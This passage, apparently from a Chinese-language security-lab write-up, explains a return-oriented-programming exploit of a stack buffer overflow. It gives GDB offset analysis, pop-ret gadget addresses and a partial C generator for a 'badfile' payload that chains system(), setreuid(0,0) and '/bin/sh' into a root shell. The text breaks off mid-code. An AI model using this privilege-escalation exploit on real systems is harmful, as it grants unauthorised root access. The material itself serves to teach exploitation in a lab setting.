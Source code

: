 ```cpp
system("echo E421140XX");
setreuid(0,0);
system("/bin/sh");
exit(0)
```

首先老办法：向 badfile 中输入 AAAA，使用 GDB 在 bof 函数的 leave 处设断点，查看栈内元素：

![image](/001/11.png)

可以看到buffer首地址到返回地址之间的距离为 $41\times 4+2=166$ 个字节。接下来考虑解决题目的要求。

首先需要介绍构造 ROP 链的相关原理。在前面我们已经知道函数被调用的过程：先将参数压栈，再将返回地址压栈，然后开辟新的栈帧。故设函数入口地址为 $x$，则返回地址为 $x+4$，第一个参数地址则为 $x+8$。

我们尝试构造这样一个 ROP 链，使得程序能够连续执行给定的四个函数。

构造的ROP链在栈中存放形式大致如下：

![image](/001/12.png)

这里的 x 即为原函数（bof）返回地址的位置。可以看到 system 的参数存放在 x+8 的位置。

我们需要在程序中找一个 pop-ret 的片段作为 rop 链函数的返回地址。例如在第一个 system() 执行完毕后 ret，会弹出 x+4 并跳转其存放的地址，即 pop-ret 的片段。首先执行 pop 弹出 system 的参数，然后执行 ret，跳转到 x+12 存放的地址，即执行 setreuid()。

使用 `objdump –d` 命令反汇编漏洞程序，查看程序完整的汇编代码，从中找 pop,ret 片段。

![image](/001/13.png)

如图，可以使用 0x804856f 作为 pop,ret 弹出一个参数后返回，使用 0x804856e 作为 pop,pop,ret 弹出两个参数后返回。

定义需要的字符串的环境变量并得到其地址：

![image](/001/14.png)


并使用 GDB 得到需要的 libc 函数的地址：

![image](/001/15.png)

使用以下程序生成 badfile：

```cpp
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int addr[image] = {
  0xb7e5f430 , // system()
  0x0804856f , // pop-ret
  0xbffff688 , // e1="echo E421140XX"
  0xb7f07870 , // setreuid()
  0x0804856e , // pop-pop-ret
  0,
  0,
  0xb7e5f430 , // system()
  0x0804856f , // pop-ret
  0xbffff67d , // e2="/bin/sh"
  0xb7e52fb0 , // exit
  0
}, cnt = 12;

int main(int argc, char **argv)
{
  char buf[300];
  memset(buf, 'A', sizeof(buf));
  FILE *badfile;

```